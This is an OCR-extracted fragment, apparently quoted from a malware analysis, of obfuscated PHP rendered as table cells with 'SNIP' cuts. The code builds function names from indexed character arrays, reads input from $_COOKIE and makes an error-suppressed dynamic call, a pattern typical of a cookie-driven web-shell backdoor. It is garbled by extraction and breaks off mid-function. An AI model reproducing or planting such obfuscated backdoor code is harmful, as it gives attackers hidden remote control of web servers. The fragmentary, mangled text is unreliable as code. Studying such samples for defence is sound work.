 | $rb22c05fb\[\'f884b\'\]\[85\].\$rb22c05fb\[\'f884b\'\]\[63\].\$rb22c0 |
| 5fb\[\'f884b\'\]\[85\].\$rb22c05fb\[\'f884b\'\]\[9\]\]                |
| =                                                                     |
| \$rb22c05fb\[\'f884b\'\]\[2\].\$rb22c05fb\[\'f884b\'\]\[90\].\$rb22c0 |
| 5fb\[\'f884b\'\]\[88\];\$rb22c05fb\[\$rb22c05fb\[\'f884b\'\]\[20\].\$ |
| rb22c05fb\[\'f884b\'\]\[5\].\$rb22c05fb\[\'f884b\'\]\[94\].\$rb22c05f |
| b\[\'f884b\'\]\[88\].\$rb22c05fb\[\'f884b\'\]\[52\].\$rb22c05fb\[\'f8 |
| 84b\'\]\[43\].\$rb22c05fb\[\'f884b\'\]\[83\].\$rb22c05fb\[\'f884b\'\] |
| \[21\].\$rb22c05fb\[\'f884b\'\]\[52\]\]                               |
| =                                                                     |
| \$rb22c05fb\[\'f884b\'\]\[14\].\$rb22c05fb\[\'f884b\'\]\[79\].\$rb22c |
| 05fb\[\'f884b\'\]\[90\].\$rb22c05fb\[\'f884b\'\]\[56\].\$rb22c05fb\[\ |
| 'f884b\'\]\[78\].\$rb22c05fb\[\'f884b\'\]\[0\];\$rb22c05fb\[\$rb22c05 |
| fb\[\'f884b\'\]\[21\].\$rb22c05fb\[\'f884b\'\]\[8\].\$rb22c05fb\[\'f8 |
| 84b\'\]\[52\].\$rb22c05fb\[\'f884b\'\]\[85\].\$rb22c05fb\[\'f884b\'\] |
| \[83\].\$rb22c05fb\[\'f884b\'\]\[9\]\]                                |
| =                                                                     |
|                                                                       |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-- SNIP                          |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
|                                                                       |
| 84b\'\]\[9\].\$rb22c05fb\[\'f884b\'\]\[21\]\] =                       |
| \$\_COOKIE;@\$rb22c05fb\[\$rb22c05fb\[\'f884b\'\]\[21\].\$rb22c05fb\[ |
| \'f884b\'\]\[8\].\$rb22c05fb\[\'f884b\'\]\[52\].\$rb22c05fb\[\'f884b\ |
| '\]\[85\].\$rb22c05fb\[\'f884b\'\]\[83\].\$rb22c05fb\[\'f884b\'\]\[9\ |
| ]\](\$rb22c05fb\[\'f884b\'\]\[78\].\$rb22c05fb\[\'                    |
|                                                                       |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-- SNIP                          |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
| \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--                               |
|                                                                       |
| \'\]\[43\].\$rb22c05fb\[\'f884b\'\]\[78\].\$rb22c05fb\[\'f884b\'\]\[2 |
| 1\];global                                                            |
| \$x864b367c;function r6971a(\$e76477, \$qead07){global                |